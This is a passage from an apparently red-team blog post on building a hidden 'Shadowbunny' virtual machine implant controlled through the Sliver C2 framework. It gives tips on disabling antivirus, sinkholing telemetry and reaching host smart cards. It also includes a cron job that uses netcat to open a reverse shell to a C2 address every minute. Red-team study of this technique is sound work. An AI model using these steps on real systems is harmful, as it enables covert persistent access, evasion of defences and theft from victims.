 ![Shadowbunny Command Center](/blog/images/2020/shadowbunny-c2-reqreq.jpg)

Above images shows using `Sliver`, a command and control system by Bishop Fox.

### Creating the Shadowbunny virtual disk image

The second pre-requisite is the Shadowbunny disk image which we must create.

**As red team you can customize a VM to your hearts content, it is fully controlled by the attacker.**

Most likely you want one that automatically connects to the C2 periodically to check for commands. Possibly enable disk encryption, uninstall any unneeded software, establish direct connections to host via a shared folder or clipboard access, disabling any AV inside, sinkholing telemetry, maybe USB access to have access to smart cards, or security keys and more.

The creation can be a lengthy and involved step depending on the red team operation. You might want to keep the size small as well to limit the amount of time it takes to perform lateral movement.  

To get started install a Ubuntu Server VM or Kali Linux on a single vhd image. For the more advanced cases and to keep VM size small, there are light-weight Linux distributions to choose from as well.  

In the end, the outcome will be a VHD disk image file (or vdi or vhdx) that is used. 

> Interesting fact: The recent “Ragnar Lock Ransomware” used an old version of Windows XP – which keeps the size of the virtual machine quite small.


**The VM can also regularly connect to the C2 server:**

This can be achieved using a cron job. If the VM runs Linux we can use the flock command as part of cron bjo as a simple solution to this:

* Edit crontab on the attack VM (I like nano):

```
sudo crontab -e
```

* Afterwards we add the following cron job to the file:

```
* * * * * /usr/bin/flock -n /tmp/zombie.lock nc 10.10.10.10 443 -e /bin/bash
```

**Explanation:** 
The `flock` command is an elegant solution to ensure the command is only running once. The `-n` option means that if the lock file at `/tmp/zombie.lock` exists, then the process will stop. If it is not yet created, then the `netcat` command will be run and connect to the server. 

Cron jobs and flock come in handy for other scenarios also.


### Optional: Shared Folders and other advanced features

To support shared folders or access the hosts clipboard, the “Guest Additions” have to be installed in the VM. More information, and options on how to install can be found on Ubuntu and VirtualBox websites.  
